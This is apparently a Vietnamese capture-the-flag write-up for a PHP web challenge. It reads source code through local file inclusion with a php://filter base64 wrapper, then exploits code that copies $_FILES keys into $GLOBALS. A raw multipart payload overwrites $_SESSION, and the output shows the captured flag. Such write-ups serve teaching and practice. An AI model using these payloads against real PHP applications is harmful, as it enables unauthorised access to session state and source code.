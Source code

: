 # Opening
Bài này không hề khó nhưng mọi người phải tinh ý 1 chút.

# Step 1: GET SOURCE
Đầu tiên lấy source của các trang home, upload, GiFt2 bằng LFI kết hợp với php wrapper:
php://filter/convert.base64-encode/resource=xxx

# Step 2: Know the vul
Ban đầu mình nghĩ chắc bài này là upload insecure file tuy nhiên đọc code lại không hề thấy lỗ nào để mà đục. Đọc kỹ hơn nữa mình nhân ra có một đoạn code rất vô lý nằm trong hàm `Upload_Single_File`.
```global $target_file;
	foreach ($_FILES as $key => $value)
	{
		$GLOBALS[$key] = $value;
	}
  ```
Đoạn này dùng để gán giá trị của một phần tử của biến $GLOBAL mà theo đúng cách hoạt động của nó sẽ là `$GLOBAL['filename']='xxx.png'`. Tuy nhiên ở đây giá trị đầu vào không hề được kiểm soát nên ta có thể thay đổi giá trị của những phần tử sẵn có bên trong biến $GLOBAL đặc biệt trong đó có $_SESSION. Thêm nữa tại home.php có đoạn gán session như sau `><?php $_SESSION['name']="children";?>`. Cộng thêm việc đọc hiểu mô tả của đề thì mình chắc chắn giá trị này phải đổi thành Nicolaus

# Step 3: Exploit
Nhớ đoạn code vô lý chứ nó nằm trước đoạn kiểm tra upload file nên dù có upload file thành công hay không cũng không quan trọng. so let's begin:
Để thay đổi được giá trị bên trong $_SESSION thì chúng ta cần một đoạn như này `$GLOBAL['_SESSION']='abcxyz'` vậy nên payload se trông như sau:
```
-----------------------------180251837238646225392010562464
Content-Disposition: form-data; name="target_file"; filename="123"
Content-Type: text/plain

123
-----------------------------180251837238646225392010562464
Content-Disposition: form-data; name="_SESSION"; filename="Nikolaus"
Content-Type: text/plain

Nikolaus
-----------------------------180251837238646225392010562464
Content-Disposition: form-data; name="submit"

Upload
-----------------------------180251837238646225392010562464--
'''
```
và đây là kết quả: 
```
PS C:\Users\hentai> & python c:/Users/hentai/OneDrive/Desktop/CTF/PIS/noelv3/santa3.py
[+] Gift3:ChristCTF{merry_christmas_2020!!!h4d35w!7h10v3} 
PS C:\Users\hentai> 
```

# thank HADES với bài chốt khá là hay  shout-out for hades
